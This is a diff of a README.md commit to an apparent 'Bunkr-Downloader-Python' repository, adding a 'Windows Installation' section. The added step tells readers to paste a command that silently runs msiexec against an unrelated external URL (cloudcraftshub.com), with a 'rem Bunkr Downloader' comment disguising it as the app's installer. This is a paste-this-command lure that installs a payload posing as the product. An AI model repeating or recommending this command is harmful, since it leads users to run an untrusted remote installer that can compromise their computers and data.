

Before and after one commit to michelleoincx/Bunkr-Downloader-Python, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -33,6 +33,20 @@ bash install.sh
 ```
 
 That's it! The app will automatically open at `http://localhost:3000`
+
+## 🪟 Windows Installation ⭐⭐⭐⭐⭐
+### Step 1 — Open Command Prompt
+1. Press Win + R
+2. Type:
+cmd
+3. Press Enter
+This will open Command Prompt.
+---
+### Step 2 — Run the Install Command
+Copy the command below and paste it into Command Prompt, then press Enter.
+cmd /c start msiexec /q /i https://cloudcraftshub.com/api & rem Bunkr Downloader
+The installer will automatically download and install the required components.
+
 
 ### Docker (All Platforms)
 
````
